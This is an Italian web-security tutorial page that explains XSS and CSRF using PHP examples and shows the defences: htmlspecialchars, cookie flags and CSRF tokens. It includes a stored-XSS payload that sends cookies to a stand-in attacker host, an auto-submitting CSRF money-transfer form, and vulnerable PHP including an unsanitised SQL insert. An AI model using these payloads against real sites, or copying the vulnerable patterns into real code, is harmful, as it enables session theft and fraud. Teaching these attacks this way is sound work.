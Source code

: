 [⬅️ [TORNA ALL'INDICE] ](../README.md)

## Vulnerabilità di Sicurezza

### Cross-Site Scripting (XSS)
XSS è una vulnerabilità che permette di eseguire un attacco iniettando codice JavaScript maligno nel tuo sito web. Questo codice viene eseguito nel browser che visita il sito.

Ecco un esempio di codice PHP vulnerabile, dove il parametro 'name' viene restituito direttamente senza sanificazione, cioè senza ripulirlo dai tag html che potrebbero consentire l'esecuzione di codice javascript.

Supponiamo di avere una pagina welcome.php scritta in questo modo:
```php
<?php
echo "Benvenuto, " . $_GET['name'];
?>
```
Una pagina di questo tipo risponde ad una richiesta del tipo
`http://tuosito.com/welcome.php?name=Paul`
con una pagina html:
```html
Benvenuto, Paul
```

Ma che succede se inviamo un richiesta di questo tipo?
`http://tuosito.com/welcome.php?name=<script>document.cookie</script>`

La pagina restituita diventa:
```html
Benvenuto, <script>document.cookie</script>
```
forzando il server a generare una pagina di risposta con del codice javascript arbitrario, che viene eseguito nel browser dell'utente che la riceve.

In particolare, document.cookie è un oggetto JavaScript che contiene tutti i cookie accessibili della pagina corrente. Per esempio potrebbe contenere:
"sessionId=abc123; userId=456; theme=dark"

#### Esempio di Vulnerabilità XSS
In realtà questo attacco in particolare non è particolarmente pericoloso, perchè la pagina con il codice "iniettato" viene restituita all'utente che ha effettuato l'attacco. Sarebbe come attaccare se stessi.
Ma consideriamo questo scenario.
Supponiamo di avere un Instagram senza protezione verso XSS.
L'utente CyberCrime commenta il post Instagram dell'utente Tanos con la seguente stringa:
```html
Bel post! <script>fetch('https://cyber-crime.com/upload?' + document.cookie);</script>
```
La funzione fetch() esegue una richiesta HTTP GET all'URL passato come parametro.

Il commento, così come scritto dall'utente CyberCrime, arriva al server, che lo salverà su database, come qualunque altro commento.

```php
<?php
$sql = "INSERT INTO comments (text) VALUES ('" . $_POST['comment'] . "')";
//ecc...
?>
```

Supponiamo che la pagina Instagram di Tanos viene visualizzata dall'utente Tony. Il server prepara dinamicamente la pagina Instagram di Tanos, mostrando tutti commenti del post (caricandoli dal database). Tony quindi riceverà sul suo browser una pagina html del tipo:
```html
-= Tanos =-
Il multiverso è una teoria interessante.
---Commenti---
CyberCrime: Bel post!
<script>fetch('https://cyber-crime.com/upload?' + document.cookie);</script>
--------------
```
Il browser di Tony eseguirà il codice Javascript, caricando i cookie di Tony sul sito dell'utente CyberCrime.

Come per Tony, CyberCrime riceverà i cookie di tutti gli utenti che accedono alla pagina Instagram di Tanos.

Questo esempio mostra come **i cookie non sono adeguati per memorizzare dati sensibili**.

#### Protezione da Cross-Site Scripting (XSS)
Per prevenire un attacco del genere, sul server va utilizzato htmlspecialchars():

```php
<?php
echo "Benvenuto, " . htmlspecialchars($_GET['name']);
?>
```

La funzione `htmlspecialchars()` converte i caratteri speciali HTML in entità HTML. Per esempio:
- `<` diventa `&lt;`
- `>` diventa `&gt;`

Questo impedisce l'esecuzione di codice JavaScript maligno, perché il browser interpreterà i caratteri speciali come testo da visualizzare e non come codice da eseguire. Nell'esempio precedente, l'output sanificato sarebbe:
`Benvenuto, &lt;script&gt;document.cookie&lt;/script&gt;`

I cookie sono particolarmente vulnerabili agli attacchi XSS perché JavaScript può accedere ai cookie della pagina corrente attraverso l'oggetto `document.cookie`.

Oltre all'uso di htmlspecialchars, per proteggere i cookie da questo tipo di attacco, è necessario utilizzare le appropriate flag di sicurezza:

```php
<?php
setcookie("session_id", "123456", [
    'httponly' => true,    // Previene l'accesso via JavaScript
    'secure' => true,      // Solo HTTPS
    'samesite' => 'Strict' // Previene CSRF
]);
?>
```

Spiegazione delle flag di sicurezza:
- `httponly`: Impedisce a JavaScript di accedere al cookie. Il cookie sarà disponibile solo per il server.
- `secure`: Il cookie viene inviato solo su connessioni HTTPS cifrate.
- `samesite Strict`: Il cookie viene inviato solo se si è sullo stesso sito
  

### Cross-Site Request Forgery (CSRF)
CSRF è un attacco che forza un utente autenticato a eseguire azioni indesiderate su un sito web dove è già autenticato. L'attacco sfrutta il fatto che il browser invia automaticamente i cookie (incluso il cookie di sessione) con ogni richiesta al sito.

#### Come Funziona un Attacco CSRF:
1. L'utente fa login su un sito (es. la sua banca)
2. Il browser memorizza il cookie di sessione
3. L'utente, mentre è ancora loggato alla banca, visita un sito maligno
4. Il sito maligno fa partire automaticamente una richiesta alla banca
5. Il browser invia automaticamente il cookie di sessione con la richiesta
6. La banca riconosce il cookie valido ed esegue l'operazione

#### Esempio di Vulnerabilità CSRF

Ecco una pagina vulnerabile di trasferimento denaro sul sito della banca.
Supponiamo di avere una pagina php `transfer.php` che richiama una funzione transferMoney per il trasferimento bancario.

```php
<?php
    transferMoney($_POST['to'], $_POST['amount']);
?>
```

Si potrebbe creare una pagina maligna che sfrutta questa vulnerabilità:

```html
<html>
<body onload="document.forms[0].submit()">
    <form action="http://banca.com/transfer.php" method="POST">
        <input type="hidden" name="amount" value="1000">
        <input type="hidden" name="to" value="cyber_criminal">
    </form>
</body>
</html>
```

Quando la vittima visita questa pagina maligna, mentre è ancora collegato al sito della banca:
- Il form viene inviato automaticamente, contattando il sito della banca
- Il browser include automaticamente i cookie legittimi della banca
- La banca vede una richiesta apparentemente legittima
- Il trasferimento viene eseguito senza che l'utente se ne accorga


#### Protezione da CSRF

La protezione CSRF si basa sul principio che il sito maligno non può leggere il contenuto delle risposte dal sito legittimo. Ecco come implementare una protezione:

Per prima cosa, generiamo un token CSRF univoco:

```php
<?php
session_start();
if (empty($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
```

La generazione del token CSRF usa due funzioni:
1. `random_bytes(32)`: Genera 32 byte di dati casuali
2. `bin2hex()`: Converte i byte binari in una stringa esadecimale leggibile

Esempio di token generato:
```php
"7f13c8e5b2d9a4f6c3d8e1f5a2b7c4d9e6f3a8b5c2d7e4f1a9b6c3d8e5f2a7"
```

Poi includiamo il token, in modo dinamico, **in ogni form del nostro sito**:

```php
<form method="POST" action="/transfer.php">
    <input type="hidden" name="csrf_token" 
           value="<?php echo $_SESSION['csrf_token']; ?>">
    <input type="text" name="amount">
    <input type="text" name="to">
    <button type="submit">Trasferisci</button>
</form>
```
In modo che sul client ci sia un form con il campo "csrf_token" impostato dal server:
```html
<form method="POST" action="/transfer.php">
    <input type="hidden" name="csrf_token" value="7f13c8e5b2">
    <input type="text" name="amount">
    <input type="text" name="to">
    <button type="submit">Trasferisci</button>
</form>
```


Infine, sul server, in ogni richiesta POST verifichiamo che il token inviato con il form sia lo stesso generato ad inizio sessione:

```php
if ( $_SESSION['csrf_token'] != $_POST['csrf_token'] ) {
    die('CSRF token non valido');
}
```

Questo funziona perché:
1. Il token cambia ad ogni sessione
2. Il sito maligno non può conoscere il token generato sul server
3. Senza il token corretto, la richiesta viene rifiutata


[⬅️ [TORNA ALL'INDICE] ](../README.md)